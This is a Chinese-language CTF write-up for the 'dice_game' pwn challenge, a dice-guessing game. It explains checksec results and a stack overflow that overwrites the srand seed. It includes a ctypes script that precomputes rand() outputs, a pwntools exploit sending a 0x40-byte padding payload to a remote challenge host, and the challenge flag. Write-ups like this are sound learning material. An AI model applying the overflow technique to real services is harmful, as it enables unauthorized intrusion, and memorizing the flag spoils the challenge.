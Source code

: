 # dice_game

这道题我之前做过类似的，所以思维完全被带到之前的做法了，完全没有注意到环境的不一样。

场景是一个nc地址，附件里有libc和程序。checksec程序发现配置还挺豪华，除了canary全开了。

-    Arch:     amd64-64-little<br>RELRO:    Full RELRO<br>Stack:    No canary found<br>NX:       NX enabled<br>PIE:      PIE enabled

看名称感觉是个猜数字的挑战，反编译程序也发现确实如此。

![main](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/packets.png)

看到srand我的DNA就动了，C语言随机数这类的题之前做过了，起码有点思路了。FUN_00100a20是判断猜的数字对不对的函数。

![function](../../images/FUN_00100a20.png)

又看见了第二个熟悉的面孔：rand。这俩玩意在一起出现基本就是考随机数了。所以我下意识认为这是一个预测随机数的题，因为main里面似乎是使用了当前时间作为srand的种子，那么我只要在刚刚连上nc后再在本地自己跑一个c程序提前拿到答案就行了。

事实证明不行。我忽略了一个很重要的点：第一我本地使用的并不是提供的libc，第二使用的种子可能不单纯只是时间（这点不确定，毕竟逆向出来的代码有点难判断）。所以只能找点别的办法了。

上面的豪华配置少了个canary，而canary又是为了防止栈溢出的。回头看了下接收名字输入的地方，0x50的大小。可是上面明明写着local_58只有6个byte那么大啊？看来是栈溢出没跑了。既然是栈溢出，那我们就要看看溢出的目标是啥。

![stack](../../images/theStack.png)

随机数所使用的种子是local_18,我们的输入是local_58。local_18在stack-0x18,local_58在stack-0x58，那么两者就间隔0x40。所以我们要填充0x40个没用的byte才能到local_58，最后再接上一个我们想要改的值就行了，比如0或者1。这里由于我本地环境无法使用python的ctypes库，所以只能先把答案提前打印出来。

```python
from ctypes import *
libc=cdll.LoadLibrary("libc.so.6")
answers=[]
for i in range(50):
    answers.append(libc.rand()%6+1)
print(answers)
```

- ### ctypes
- > Python 的外部函数库。它提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。无需第三方安装。

- ### cdll.LoadLibrary()
- > 导入指定文件名的共享库

嗲用cdll.LoadLibrary后我们就可以使用里面的函数了，具体就是对象名.调用的函数。这里没有播种直接使用rand得操作和srand播种0或者1的结果是一样的。

最后exp使用了python的pwntools库，这是一个在python下很好用的pwn第三方模块。

```python
from pwn import *
payload=b'A'*0x40+p64(1)
answers=[2, 5, 4, 2, 6, 2, 5, 1, 4, 2, 3, 2, 3, 2, 6, 5, 1, 1, 5, 5, 6, 3, 4, 4, 3, 3, 3, 2, 2, 2, 6, 1, 1, 1, 6, 4, 2, 5, 2, 5, 4, 4, 4, 6, 3, 2, 3, 3, 6, 1]
proc=remote('61.147.171.105',62201)
proc.sendlineafter("Welcome, let me know your name:",payload)
for i in answers:
    print(proc.recv())
    proc.sendline(str(i))
print(proc.recvall())
```

- ### Flag
- > cyberpeace{9676b83ce7efcc02756df66432d6be97}

